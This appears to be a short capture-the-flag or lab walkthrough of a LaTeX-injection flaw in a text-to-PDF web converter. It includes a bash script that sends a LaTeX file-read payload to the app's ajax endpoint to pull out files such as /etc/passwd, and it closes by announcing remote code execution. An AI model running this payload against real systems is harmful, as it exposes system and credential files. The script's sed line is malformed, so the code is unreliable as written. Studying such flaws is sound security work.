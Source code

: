     The application converts the text in the input to a pdf
    
    ![[Untitled 236.png]]
    
    Then is available to download from the server.
    
    ![[Untitled 237.png]]
    
    As seen, this software converts text to a HQ PDF. At first sight there is no vulnerabilities, but we can try with some payloads
    
    [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)
    
    Looking into the code I can see that there is using `--shell-escape`while excuting the comands
    
    ![[Untitled 238.png]]
    
    What we are going to do is, using the following payload
    
    ![[Untitled 239.png]]
    
    We will be making a bash script that loops in every line of a given file e.g. `/etc/passwd`
    
    ```Bash
    #!/bin/bash
    
    declare -r main_url="http://localhost/ajax.php"
    filename=$1
    
    if [ $1 ]; then
    		file_to_download=$(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename%0A\read\file%20to\line%0A\text{\line}%0A\closein\file&template=blank" | grep -i download | awk 'NF{print $NF}')
    		wget $file_to_download &>/dev/null
    		file_to_convert=$(echo $file_to_download | tr '/' ' ' | awk 'NF{print $NF}')
    		pdftotext $file_to_convert
    		file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt')
    		rm $file_to_convert
    		cat $file_to_read | head -n 1
    		rm $file_to_read
    else
    echo -e "\n[!] Uso incorrecto, uso: $0 /etc/passwd"
    fi
    ```
    
    To make it recursive
    
    ![[Untitled 240.png]]
    
    Perfect, this is all injections, lets begin with some RCE
    
    ![[Untitled 241.png]]
    
      
    
